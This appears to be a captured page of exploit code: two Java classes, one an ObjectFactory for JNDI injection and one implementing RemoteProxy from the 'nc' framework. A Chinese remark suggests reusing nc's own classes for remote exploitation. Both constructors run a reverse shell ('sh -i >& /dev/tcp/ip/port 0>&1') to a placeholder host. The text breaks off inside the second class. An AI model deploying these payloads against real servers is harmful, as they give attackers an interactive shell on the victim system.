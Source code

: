     import javax.naming.Context;
    import javax.naming.Name;
    import javax.naming.spi.ObjectFactory;
    import java.io.Serializable;
    import java.util.Hashtable;

    public class remote implements ObjectFactory, Serializable {

        public remote() {
            try{
                java.lang.Runtime.getRuntime().exec(new String[]{"/bin/sh","-c","sh -i >& /dev/tcp/ip/port 0>&1"});
            } catch (Exception e) {
                e.printStackTrace();
            }
        }

        @Override
        public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
            return null;
        }
    }

> 当然也可以选择利用 nc 自带的类进行远程部署利用

    import nc.bs.framework.common.ComponentMetaVO;
    import nc.bs.framework.rmi.RemoteAddressSelector;
    import nc.bs.framework.rmi.RemoteProxy;

    public class remote implements RemoteProxy {

        public remote() {
            try{
                java.lang.Runtime.getRuntime().exec(new String[]{"/bin/sh","-c","sh -i >& /dev/tcp/ip/port 0>&1"});
            } catch (Exception e) {
                e.printStackTrace();
            }
        }

        @Override
        public Object getAttribute(String s) {
            return null;
        }

        @Override
        public void setAttribute(String s, Object o) {

        }

        @Override
        public ComponentMetaVO getComponentMetaVO() {
            return null;
        }

        @Override
        public int getRetryMax() {
            return 0;
        }

